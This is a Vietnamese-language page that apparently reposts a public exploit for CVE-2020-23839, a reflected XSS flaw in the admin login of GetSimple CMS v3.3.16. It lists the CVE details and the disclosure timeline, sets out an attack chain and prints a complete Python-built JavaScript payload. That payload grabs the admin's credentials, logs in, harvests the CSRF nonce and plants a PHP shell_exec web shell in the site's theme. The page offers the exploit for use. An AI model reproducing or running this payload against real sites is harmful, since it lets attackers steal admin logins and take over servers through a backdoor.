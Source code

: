 ```yaml
---
title: CVE-2020-23839 | GetSimple CMS v3.3.16 - Reflected XSS to RC
date: 20/6/2021
layout: single

--- 
```

---


## CVE-2020-23839
Tác giả: Bobby Cooke (boku) 
Nguồn: [boku7/CVE-2020-23839](https://github.com/boku7/CVE-2020-23839)

+ OWASP Top Ten 2017: A7:2017-Cross-Site Scripting (XSS)
+ CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') - Type 1: Reflected XSS 
+ CVSS Base Score: 6.1 MEDIUM
+ CVSS v3.1 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
+ https://nvd.nist.gov/vuln/detail/CVE-2020-23839
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839

## Phân tích lỗ hổng và công bố đầy đủ vấn đề
+ https://github.com/GetSimpleCMS/GetSimpleCMS/issues/1330


--- 
## Mô tả lỗ hổng bảo mật
+ GetSimple CMS v3.3.16 gặp phải XSS được phản ánh trên Cổng thông tin đăng nhập quản trị viên. Vào ngày 12 tháng 8 năm 2020, nhà cung cấp đã nhận được chi tiết tiết lộ đầy đủ về lỗ hổng bảo mật thông qua email riêng tư. Lỗ hổng bảo mật đã được tiết lộ công khai vào ngày 13 tháng 9 năm 2020 thông qua MITER với việc xuất bản CVE-2020-23839, chứa rất ít chi tiết và không có bằng chứng về khái niệm. Vào ngày 20 tháng 1 năm 2021, việc tiết lộ đầy đủ và phân tích mã đã được tiết lộ công khai dưới vé các vấn đề hoạt động của GetSimple CMS GitHub.

## Mô tả Khai thác
+ Khai thác này tạo ra một trọng tải XSS được phản ánh, ở dạng siêu liên kết, khai thác CVE-2020-23839. Khi Quản trị viên của hệ thống GetSimple CMS truy cập URL này trong trình duyệt của họ và nhập thông tin đăng nhập của họ, một chuỗi tấn công khai thác tinh vi sẽ được khởi chạy, cho phép kẻ tấn công từ xa giành được Quyền thực thi mã từ xa của máy chủ lưu trữ hệ thống GetSimple CMS


## Chuỗi tấn công

1. Thủ thuật của kẻ tấn công GetSimple CMS Admin để truy cập URL được cung cấp từ khai thác này
2. Quản trị viên sau đó nhập thông tin đăng nhập của họ vào cổng đăng nhập GetSimple CMS
3. Tải trọng XSS được phản ánh sẽ kích hoạt Hành động khi Quản trị viên nhấp vào nút Gửi hoặc nhấn Enter
4. Tải trọng XSS thực hiện yêu cầu XHR POST trong nền, đăng nhập trình duyệt vào bảng quản trị GetSimple CMS
5. Sau đó, trọng tải XSS thực hiện yêu cầu XHR GET thứ hai tới admin / edit-theme.php và thu thập Mã thông báo CSRF & chủ đề đã định cấu hình cho các trang web được lưu trữ trên CMS
6. Tải trọng XSS sau đó thực hiện yêu cầu ĐĂNG XHR thứ 3 tới admin / edit-theme.php, đưa một WebShell backdoor PHP vào tất cả các trang của CMS
7. Kẻ khai thác liên tục cố gắng kết nối với trang /index.php công khai của hệ thống CMS GetSimple đích cho đến khi một WebShell được trả về
8. Khi khai thác kết nối với WebShell, một WebShell PHP tương tác xuất hiện trong bảng điều khiển kẻ tấn công


---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## XSS_PAYLOAD

```python
def genXssPayload():
    XSS_PAYLOAD = '/index/javascript:'
    XSS_PAYLOAD += 'var s = decodeURIComponent("%2f");'
    XSS_PAYLOAD += 'var h = "application"+s+"x-www-form-urlencoded";'
    XSS_PAYLOAD += 'var e=function(i){return encodeURIComponent(i);};'
    XSS_PAYLOAD += 'var user = document.forms[0][0].value;'
    XSS_PAYLOAD += 'var pass = document.forms[0][1].value;'
    XSS_PAYLOAD += 'var u1 = s+"admin"+s;'
    XSS_PAYLOAD += 'var u2 = u1+"theme-edit.php";'
    XSS_PAYLOAD += 'var xhr1 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr2 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr3 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'xhr1.open("POST",u1,true);'
    XSS_PAYLOAD += 'xhr1.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'params = "userid="+user+"&pwd="+pass+"&submitted=Login";'
    XSS_PAYLOAD += 'xhr1.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr1.readyState == 4 && xhr1.status == 200) {'
    XSS_PAYLOAD += 'xhr2.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr2.readyState == 4 && xhr2.status == 200) {'
    XSS_PAYLOAD += 'r=this.responseXML;'
    XSS_PAYLOAD += 'nVal = r.querySelector("#nonce").value;'
    XSS_PAYLOAD += 'eVal = r.forms[1][2].defaultValue;'
    XSS_PAYLOAD += 'xhr3.open("POST",u2,true);'
    XSS_PAYLOAD += 'xhr3.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'payload=e("<?php echo shell_exec($_REQUEST[FierceGodKick]) ?>");'
    XSS_PAYLOAD += 'params="nonce="+nVal+"&content="+payload+"&edited_file="+eVal+"&submitsave=Save+Changes";'
    XSS_PAYLOAD += 'xhr3.send(params);'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr2.open("GET",u2,true);'
    XSS_PAYLOAD += 'xhr2.responseType="document";'
    XSS_PAYLOAD += 'xhr2.send();'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr1.send(params);'
    XSS_PAYLOAD += '%2f%2f'
    return XSS_PAYLOAD
```
![](https://raw.githubusercontent.com/boku7/CVE-2020-23839/main/CVE202023839.png)
---
## Nguồn bài viết và mã khai thác được tác giả Boku7 chia sẻ  

## Chúc May Mắn :D
